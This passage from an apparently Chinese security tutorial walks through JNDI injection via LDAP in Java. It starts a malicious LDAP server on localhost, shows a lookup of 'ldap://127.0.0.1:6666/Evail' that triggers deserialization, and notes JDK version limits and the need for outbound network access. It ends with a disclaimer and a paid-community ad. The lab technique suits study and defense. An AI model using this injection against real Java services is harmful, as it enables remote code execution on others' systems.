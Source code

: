 然后传进ldapserver  
```
java -jar LDAPServer.jar 127.0.0.1 1.txt

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSETIFz1I4IWuxZckTR9maibic6wB76cQo957Z0dDZokicIFojibnSngyFHDhpaoyrCD6jaVayPBiaQHlicw/640?wx_fmt=png&from=appmsg "")  
  
然后直接去JNDI查询  
```
SayHello sayHello = (SayHello)initialContext.lookup("ldap://127.0.0.1:6666/Evail");

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSETIFz1I4IWuxZckTR9maibicpmyohQOen5NFaK8kAaCZWeXnarqlzQA3judL8VNE6g8CQnq6icSpHBQ/640?wx_fmt=png&from=appmsg "")  
  
调试一下  
  
会走到序列化的逻辑进行反序列化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSETIFz1I4IWuxZckTR9maibicFyd1AtqyTzkXsnC7Pkd2nO2AHdXH2khe65JEPfShq1qGxAu16APxow/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSETIFz1I4IWuxZckTR9maibico1PcQXLySHBcSGxbCiacapkoSWCf7giajBZWRzvyBhYknLObA5Km0icRA/640?wx_fmt=png&from=appmsg "")  
  
‍  
# 总结  
  
这里要注意的点就是 RMI和LDAP都是需要出网的环境进行远程方法调用或者是目录名称查询，所以都是可以操作的，下图是两种方式的jdk适配版本总结，那么其实绕过跟一遍断点即可理解完，都是一些攻防博弈，非常值得学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSETIFz1I4IWuxZckTR9maibic3k647cbhyAXsZYU6BQ0FQ2XobwlJF5fYZ9OdlDxcOkqrwsicuOqzzeQ/640?wx_fmt=png&from=appmsg "")  
  
声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。**所有渗透都需获取授权**  
！  
  
**如果你是一个网络安全爱好者，欢迎加入我的知识星球：zk安全知识星球,我们一起进步一起学习。星球不定期会分享一些前言漏洞，每周安全面试经验、SRC实战纪实等文章分享，微信识别二维码，只需25，即可加入，如不满意，72 小时内可在 App 内无条件自助退款。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGpTtick8dYImTUOcmaQWHRzkPIp7SwgncysYUIo0cKZAcHvXcMEBL5ZZEJCIpUP08SGOR8bnejDxQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
